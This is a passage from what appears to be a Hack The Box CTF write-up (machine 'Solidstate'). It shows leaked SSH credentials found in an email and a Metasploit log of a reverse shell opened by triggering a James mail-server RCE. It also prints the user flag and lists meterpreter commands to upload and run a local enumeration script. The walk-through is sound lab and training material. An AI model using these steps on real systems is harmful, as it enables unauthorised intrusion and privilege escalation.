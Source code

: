 ```{r, engine='bash', sh}
Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

So that should be enough to pop our payload.
Why not loggin in via SSH and just use that ?
After logging in via SSH you are greeted with a really limited shell.
By actually exploiting the James RCE we circumvent this.

After logging in via SSH we are greeted on our msf console window with.

```{r, engine='bash', sh}
msf exploit(handler) > [*] Command shell session 1 opened (10.10.14.40:9999 -> 10.10.10.51:51008) at 2017-10-25 06:32:16 +0200
```

The next steps for me are upgrading the shell to meterpreter, snatching the user.txt and running local enumeration.

```{r, engine='bash', sh}
cat /home/mindy/user.txt
914d0a4ebc177889b5b89a23f556fd75
```

The first step in local enum is always for me uploading the HighOnCovfefe script and checking the output :)
( https://highon.coffee/blog/linux-local-enumeration-script/ )

So i abort the current shell session here to go back to meterpreter, upload the local enum script, chmot it and run it.

```{r, engine='bash', sh}
meterpreter> upload covfefe.sh
meterpreter> shell
chmod a+x covfefe.sh
./covfefe.sh
```

Interesting output:

```{r, engine='bash', sh}
##
##  World Writable FIles
##


/opt/tmp.py
```
